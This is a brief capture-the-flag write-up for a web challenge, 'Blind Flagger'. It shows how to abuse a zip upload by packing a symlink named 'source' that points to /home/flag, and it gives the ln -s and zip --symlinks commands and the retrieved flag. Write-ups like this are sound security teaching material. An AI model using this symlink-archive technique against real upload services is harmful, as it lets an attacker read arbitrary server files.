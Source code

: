 Challenge Name: Blind Flagger
Level: Hard
Category: Web


robots.txt :

	Disallow: /uploads
	Disallow: /home/flag

Uploading only Zip files :

	Archive:  uploads/738d96baa3dffad36be4e2b998e84d16.zip
	"Error: source file was not found , please try again."

inside zip file file, tried many extensions but without result so tried 'source' as file name inside the zip and it worked :) :

just create our symlink trick and go head :

```sh
ln -s /home/flag source
zip --symlinks 0.zip source
```

	Archive:  uploads/738d96baa3dffad36be4e2b998e84d16.zip
	$ cat 738d96baa3dffad36be4e2b998e84d16/source

http://.../uploads/738d96baa3dffad36be4e2b998e84d16/source : FLAG

__FLAG{zIp_aNd_sYmLinkS_arE_S0_rIskY}__